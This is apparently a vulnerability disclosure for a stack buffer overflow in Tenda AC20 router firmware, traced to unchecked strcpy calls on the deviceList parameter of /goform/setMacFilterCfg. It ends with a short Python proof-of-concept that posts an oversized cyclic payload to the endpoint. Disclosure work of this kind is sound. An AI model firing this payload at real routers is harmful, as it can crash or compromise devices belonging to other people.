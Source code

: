 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) setMacFilterCfg

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_46A2AC` function, which processes the `deviceList` input with unsafe string operations lacking bounds checking, enabling stack corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/setMacFilterCfg`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `deviceList` parameter in the `formSetMacFilterCfg` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `deviceList` parameter is retrieved via `websGetVar` in `formSetMacFilterCfg` and passed to `sub_46A2AC` for rule processing.

2.  **Rule Parsing**: `sub_46A2AC` splits `deviceList` by newline characters (`\n`) and iterates over each entry, passing them to `sub_46A8F8` for individual rule handling.

3.  **Data Extraction**: `sub_46A8F8` calls `sub_46BC10` to parse each entry. `sub_46BC10` uses `strchr` to split the entry by carriage return (`\r`), separating it into a "name" part (before `\r`) and a "MAC address" part (after `\r`).

4.  **Unsafe Copy**: Critical unsafe operations occur in `sub_46BC10`:

*   `strcpy(a2 + 32, a1)`: Copies the "name" part (user-controlled) into a 32-byte offset of a fixed-size stack buffer (`v5` in `sub_46A8F8`, size 160 bytes).

*   `strcpy(a2, v4)`: Copies the "MAC address" part (user-controlled) into the start of the same buffer.

Neither `strcpy` call validates the length of the input against the buffer size. If the "name" or "MAC address" parts exceed the remaining buffer space, they overflow the stack buffer, overwriting adjacent memory (including return addresses, saved registers, and other critical stack data).
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
![PoC 2 Result: Root Directory Listing](./imgs/4.png)

## PoC: Python Exploit Script


```
from pwn import *
import requests
payload = cyclic(1000)
url = "http://192.168.31.149/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/5.png)
